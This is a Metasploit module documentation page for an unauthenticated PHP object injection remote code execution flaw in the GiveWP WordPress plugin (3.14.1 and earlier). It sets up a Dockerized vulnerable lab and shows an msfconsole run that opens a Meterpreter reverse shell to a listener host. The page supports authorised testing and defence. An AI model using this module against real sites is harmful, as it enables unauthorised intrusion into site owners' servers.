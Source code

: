 ## Vulnerable Application

This Metasploit module exploits an unauthenticated PHP Object Injection vulnerability in the
GiveWP plugin for WordPress (versions <= 3.14.1).
The vulnerability is present in the 'give_title' parameter, allowing attackers to inject a crafted
PHP object leading to remote code execution (RCE) when combined with a suitable POP chain.

## Setup

1. **Docker Compose Setup**: Create the following `docker-compose.yml` file to set up a vulnerable WordPress environment:

```yaml
services:
  db:
    image: mysql:8.0.27
    command: '--default-authentication-plugin=mysql_native_password'
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=somewordpress
      - MYSQL_DATABASE=wordpress
      - MYSQL_USER=wordpress
      - MYSQL_PASSWORD=wordpress
    expose:
      - 3306
      - 33060

  wordpress:
    image: wordpress:6.3.2
    ports:
      - "80:80"
    restart: always
    environment:
      - WORDPRESS_DB_HOST=db
      - WORDPRESS_DB_USER=wordpress
      - WORDPRESS_DB_PASSWORD=wordpress
      - WORDPRESS_DB_NAME=wordpress
volumes:
  db_data:
```
1. Run Docker: `docker compose up`
1. Access the WordPress instance at `http://127.0.0.1` and complete the installation process
1. **Download and Install Vulnerable GiveWP Plugin**:
- Download the plugin: [GiveWP 3.14.1](https://downloads.wordpress.org/plugin/give.3.14.1.zip)
- Unzip the plugin and copy it to the Docker container:
```bash
docker compose cp give wordpress:/var/www/html/wp-content/plugins
```
- Access the WordPress instance at `http://localhost` and activate the GiveWP plugin via the admin dashboard.

1. **Create a Donation Form**:
  - Navigate to the "Forms" section within the GiveWP plugin and click on "Add Form."
  - Select any form.
  - Configure the form as needed, publish it.

## Options

No specific options need to be configured.

## Verification Steps

1. Start `msfconsole`.
2. Use the module with `use exploit/multi/http/wp_givewp_rce`.
3. Set `RHOSTS`, `RPORT`, and the necessary WordPress-specific options.
4. Run the exploit.
5. Gain a Meterpreter session.

## Scenarios

### GiveWP Plugin version: 3.14.1 (Dockerized WordPress Version 6.3.2)

Using `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf6 > use exploit/multi/http/wp_givewp_rce 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_givewp_rce) > run http://127.0.0.1:8888

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.3.2
[+] Detected GiveWP Plugin version: 3.14.1
[+] The target appears to be vulnerable.
[+] Successfully retrieved form list. Available Form IDs: 8, 10, 13
[*] Using Form ID: 13 for exploitation.
[*] Sending stage (3045380 bytes) to 172.24.0.3
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.24.0.3:51272) at 2024-08-27 22:11:22 +0200

meterpreter > sysinfo 
Computer     : 172.24.0.3
OS           : Debian 11.8 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
